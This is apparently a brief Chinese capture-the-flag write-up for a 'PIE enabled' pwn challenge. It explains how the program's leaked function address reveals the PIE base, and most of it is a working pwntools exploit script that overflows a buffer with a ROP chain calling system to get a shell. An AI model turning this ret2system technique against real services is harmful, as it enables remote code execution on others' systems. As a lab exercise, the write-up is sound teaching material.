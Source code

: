 # PIE enabled

## 文件分析

下载`pwn`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

vuln函数直接把自己的地址打印出来了...直接减一减拿到piebase就和之前的题一样了

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 46153)
sh.recvuntil(b'is:') # skip
elf = ELF('pwnpie')
vuln = elf.symbols['vuln']
pieBase = int(sh.recvline()[2:14], 16) - vuln # 做完才发现int可以直接从bytes转换，不一定是str
shstrAddr = pieBase + 0x4010
popRdiAddr = pieBase + 0x1323
systemAddr = pieBase + 0x11d8
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(shstrAddr) + p64(systemAddr))
sh.interactive()
```

Done.
